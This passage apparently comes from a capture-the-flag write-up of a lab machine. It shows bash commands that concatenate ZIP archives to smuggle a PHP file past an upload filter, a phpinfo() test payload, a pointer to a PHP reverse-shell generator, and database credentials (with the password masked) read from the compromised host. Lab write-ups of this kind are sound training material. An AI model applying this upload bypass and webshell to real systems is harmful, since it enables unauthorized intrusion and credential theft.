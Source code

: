 ![](Pasted%20image%2020250912094504.png)
_Upload File page_

## 4️⃣ ZIP Exploit and Reverse Shell

**Tools**: ZIP utilities (zip command); revshells.com for payload generation.

**Content**:
Exploited ZIP upload restrictions by crafting a malicious ZIP bypassing checks.🔻

I will be using `phpinfo();` for check that it will work or not : 

```bash
zip a.zip legit.pdf                   

mkdir malicious_files

echo '<?php phpinfo(); ?>' > malicious_files/shell.php

zip -r malicious.zip malicious_files/

cat a.zip malicious.zip > combined.zip
```
{: .nolineno }

Now upload the `combined.zip` file, and after that in upload link file in place of `legit.pdf` use `malicious_files/shell.php` and that is the result I got 🔻

![](Pasted%20image%2020250912091652.png)
_phpinfo() uploaded into the upload page_

Let's have a reverse shell now  🔻

I used this [revshell.com](https://www.revshells.com/) >>> <kbd>PHP Ivan Sincek </kbd> payload and changed the IP and port for receiving the reverseshell.

## 5️⃣ User Shell as <b><span style="color:rgb(219, 0, 0)">xamppuser</span></b>


After getting shell I got the `db.php` file and some creds 🔻

```php
C:\xampp\htdocs\certificate.htb>type db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert*********'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>
```
{: .nolineno }
